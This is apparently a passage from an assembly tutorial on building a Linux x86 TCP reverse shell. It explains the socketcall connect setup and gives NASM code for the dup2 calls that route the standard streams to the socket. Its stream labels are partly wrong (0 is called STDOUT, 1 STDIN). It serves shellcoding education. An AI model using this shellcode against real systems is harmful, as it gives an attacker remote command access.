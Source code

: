 Next, the arguments for `socketcall` are prepared, this time with the intention of executing `connect`. As with the previous `socketcall`, the second argument is passed via the `ECX` register. To reiterate, as the three arguments expected by `connect` are stored on the stack, the `ESP` register will contain the memory address of where the first of these three arguments begins. Therefore, after the `MOV` instruction, the `ECX` register contains the memory address of where the three arguments for `connect` are stored. Recall from the "Socketcall: Socket" section that the value `0x3` is still stored in `EBX`. The value of `3` is the function number for `connect` and is passed to `socketcall` through `EBX` as the first argument. The system call number `0x66` (decimal `102`) is moved to the `AL` register before the sofware interrupt occurs and the system call is executed.

#### Dup2 System Call
_Note from the author:_ Once again, this section is very similar to the "Dup2 System Call" section from the TCP bind shell explanation. The main difference is that in a TCP reverse shell, the file descriptor passed as the first argument to `dup2` each time is the socket file descriptor `sockfd` returned by `socket` ass opposed to the a connection file descriptor `confd` returned by`accept`.

The next system call required in the TCP reverse shell is `dup2` which is assigned the system call number decimal `63` in the `unistd_32.h` file.

```shell
#define __NR_dup2 63
```

As explained previously, `dup2` is used to direct `STDOUT`, `STDIN`, and `STDERROR` to the socket returned by `socket`. This means that the `dup2` system call will be repeated three times, one time for each standard stream. For each call, the `oldfd` argument will be the socket file descriptor `sockfd` that is currently stored in `EBX` and the `newfd` argument will first be `0` for `STDOUT`, then `1` for `STDERROR`, and finally `2` for `STDERROR`.

```nasm
; Direct Connection Socket Output
; int dup2(int oldfd, int newfd);
; dup2(sockfd, 0);
mov ecx, edx        ; 0 = STDOUT
mov al, 0x3f        ; dup2
int 0x80
; dup2(sockfd, 1);
inc cl              ; 1 = STDIN
mov al, 0x3f        ; dup2
int 0x80
; dup2(sockfd, 2);
inc cl              ; 2 = STDERROR
mov al, 0x3f        ; dup2
int 0x80
```

For the first call to `dup2`, the value of `0` is stored in the `ECX` register which will be passed to `dup2` as its second argument. Recall that the `sockfd` file descriptor is still in `EBX` and will be passed as the first argument to `dup2`. Then, the value `0x3f` which is the hexadecimal equivalent of the decimal representation of the system call number for `dup2` is moved into `AL` before the function is called via `INT 0x80`.

This general process is repeated two more times passing the values of `1` and `2` to the function's second argument each successive time. Note that the `sockfd` file descriptor remains in `EBX` throughout.
